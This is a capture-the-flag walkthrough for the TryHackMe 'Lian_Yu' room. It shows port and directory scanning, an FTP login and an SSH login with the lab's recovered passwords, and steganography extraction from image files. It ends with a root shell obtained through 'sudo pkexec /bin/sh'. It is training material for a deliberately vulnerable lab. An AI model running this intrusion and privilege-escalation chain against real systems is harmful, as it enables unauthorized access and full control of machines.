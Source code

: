 # Lian\_Yu

**Room Link:** [https://tryhackme.com/room/lianyu](https://tryhackme.com/room/lianyu)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
gobuster dir -u http://$VICTIM/island -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
gobuster dir -u http://$VICTIM/island/2100 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x ticket
```

<figure><img src="../../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>



**Link:** [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

<figure><img src="../../.gitbook/assets/image (12) (5).png" alt=""><figcaption></figcaption></figure>



## FTP

```
ftp $VICTIM
Username: vigilante
Password: !#th3h00d
mget *
```



**Kali**

```
exiftool Leave_me_alone.png 
sudo apt install ncurses-hexedit
```

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (118).png" alt=""><figcaption></figcaption></figure>

Change the first hex values to **89 50 4E 47 0D 0A** to make it .PNG then save the file

<figure><img src="../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
exiftool Leave_me_alone.png
```

<figure><img src="../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (124).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
steghide info aa.jpg
Password: password
```

<figure><img src="../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
steghide extract -sf aa.jpg
Password: password
unzip ss.zip 
```

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh slade@$VICTIM
Password: M3tahuman
```



## Privilege Escalation

**Victim**

```
sudo -l
```



<figure><img src="../../.gitbook/assets/image (19) (6) (3).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
sudo pkexec /bin/sh
```

<figure><img src="../../.gitbook/assets/image (112).png" alt=""><figcaption></figcaption></figure>























